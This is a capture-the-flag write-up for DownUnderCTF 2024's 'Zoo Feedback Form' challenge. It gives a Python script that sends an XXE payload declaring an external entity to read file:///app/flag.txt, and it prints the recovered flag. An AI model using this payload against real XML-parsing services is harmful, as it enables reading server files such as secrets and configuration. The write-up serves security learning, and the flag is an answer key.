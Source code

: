 # Zoo Feedback Form
Solved by **aan**

## Question
The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there!

## Solution
The application was vulnerable to the XXE injection, need to find where `flag.txt` is located.
```
import requests

url = "https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev/"

data = '''<?xml version="1.0"?>
<!DOCTYPE root [
  <!ELEMENT root ANY >
  <!ENTITY xxe SYSTEM "file:///app/flag.txt" >]>
<root>
  <feedback>&xxe;</feedback>
</root>'''

response = requests.post(url, data=data)

print(response.text)
```

### Flag
`DUCTF{emU_say$_he!!0_h0!@_ci@0}`

